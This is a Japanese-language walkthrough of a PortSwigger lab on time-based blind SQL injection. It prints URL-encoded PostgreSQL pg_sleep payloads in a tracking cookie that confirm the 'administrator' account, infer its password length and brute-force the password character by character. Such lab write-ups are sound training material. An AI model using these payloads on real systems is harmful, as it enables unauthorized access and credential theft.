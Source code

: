 # 時間遅延と情報取得を伴うブラインド SQL インジェクション

次のハッキングラボを実施します  
https://portswigger.net/web-security/sql-injection/blind/lab-time-delays-info-retrieval  
このラボにはブラインド SQL インジェクションの脆弱性が含まれています。アプリケーションは分析に追跡 Cookie を使用し、送信された Cookie の値を含む SQL クエリを実行します。

SQL クエリの結果は返されません。また、クエリが行を返すかエラーを引き起こすかによって、アプリケーションの応答が変わることはありません。ただし、クエリは同期的に実行されるため、情報を推測するために条件付きの時間遅延をトリガーする可能性があります。

- 1. BuroSuite を起動して、Proxy タブからブラウザを立ち上げます
- 2. ハッキングラボにアクセスします
- 3. TrackingId を含むリクエストを send to repeater します
- 4. TrackingId の後ろに SQL を付加して送信します。応答まで 10 秒かかることを確認します

```
TrackingId=x'%3BSELECT+CASE+WHEN+(1=1)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END--
```

- 5. TrackingId の後ろに SQL を付加して送信します。即座に応答があることを確認します。これにより SQL が実行されている可能性があることが分かります。

```
TrackingId=x'%3BSELECT+CASE+WHEN+(1=2)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END--
```

- 6. TrackingId の後ろに SQL を付加して送信します。administrator というユーザーが存在するため、10 秒後に応答が返ります。

```
TrackingId=x'%3BSELECT+CASE+WHEN+(username='administrator')+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--
```

- 7.TrackingId の後ろに SQL を付加して送信します。パスワードの長さを探ります

```
TrackingId=x'%3BSELECT+CASE+WHEN+(username='administrator'+AND+LENGTH(password)>1)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--
```

password)>20 にすると、応答に 10 秒かかるようになるので
パスワード長は 20 と推定できます。

- 8. repeater のリクエストを send to intruder します
- 9. パスワードを 1 桁ずつ絞り込んでいきます。1 桁目を a~z,0~9 で探します。明らかに応答が遅いパラメータがパスワードと一致します。これを 20 回繰り返します。

```
TrackingId=x'%3BSELECT+CASE+WHEN+(username='administrator'+AND+SUBSTRING(password,1,1)=$'a'$)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--
```

- 10. 20 回の攻撃でパスワードは判明しているため、管理者でログインします

![1](https://github.com/pea-sys/web-security-experiments/assets/49807271/8a75a784-0b0b-4269-96cd-afae72a7a5dd)
